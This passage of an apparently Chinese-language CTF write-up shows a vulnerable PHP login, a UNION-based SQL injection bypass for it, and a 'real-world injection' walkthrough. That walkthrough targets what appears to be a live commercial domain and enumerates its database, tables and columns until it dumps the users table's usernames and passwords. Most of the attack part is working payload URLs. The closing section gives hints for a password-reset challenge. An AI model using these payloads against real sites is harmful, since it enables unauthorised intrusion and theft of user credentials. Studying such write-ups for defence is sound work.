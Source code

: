 ````
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```
只要让密码md5之后和user里union的值相等就行，直接POST `user=' union select 'c4ca4238a0b923820dcc509a6f75849b'#&pass=1`
构成select pw from ctf where user=' ' union select 'c4ca4238a0b923820dcc509a6f75849b'#&pass=1'"
此时 user=' union select 'c4ca4238a0b923820dcc509a6f75849b'#&pass=1，pass=1，query[pw]=c4ca4238a0b923820dcc509a6f75849b

###综合题2
还是看别人 [Blog](http://www.hazzel.cn/archives/10.html)

###注入实战1
mysql注入
判断是否有注入
http://www.backstagecommerce.ca/services.php?id=4 and 1=1		返回正确
http://www.backstagecommerce.ca/services.php?id=4 and 1=2		返回错误		有注入

确定union查询字段数
http://www.backstagecommerce.ca/services.php?id=4 order by 19		返回正确
http://www.backstagecommerce.ca/services.php?id=4 order by 20		返回错误			确定字段数为19

确定返回字段
http://www.backstagecommerce.ca/services.php?id=4 and 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
返回3,6,7,8,9,10,11,12,13

选择上面的其中的一个返回字段 12 替换为dabase()，查询数据库名称
http://www.backstagecommerce.ca/services.php?id=4 and 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,database(),13,14,15,16,17,18,19			返回 db1052699_bsc

将数据库名称转为十六进制，查询表名
http://www.backstagecommerce.ca/services.php?id=4 and 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,group_concat(table_name),13,14,15,16,17,18,19 from information_schema.tables where table_schema=0x6462313035323639395F627363	
返回了很多表名 CROC,FHI,backstagecommerce,brands,career,comments,contact,divanetwork,gama,hairforensic,hairtreats,index_page,kenchii,kerastraight,news_media,sales,sales_volume,support,team,unitedhairstylist,users,webpages

选择users表名，不要问我为什么，你一般拿站一般要什么内容嘛，除了装X，基本上都是冲着裤子，题目也说了是要管理员密码
http://www.backstagecommerce.ca/services.php
?id=4 and 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,group_concat(column_name),13,14,15,16,17,18,19 from information_schema.columns where table_name=0x7573657273
返回三列 id,username,password

查询字段名
http://www.backstagecommerce.ca/services.php
?id=4 and 1=2 UNION SELECT 1,2,3,4,5,6,7,id,9,10,11,username,password,14,15,16,17,18,19 from users

###密码重置2
让重置管理员密码
>TIPS:
1.管理员邮箱观察一下就可以找到
2.linux下一般使用vi编辑器，并且异常退出会留下备份文件
3.弱类型bypass
````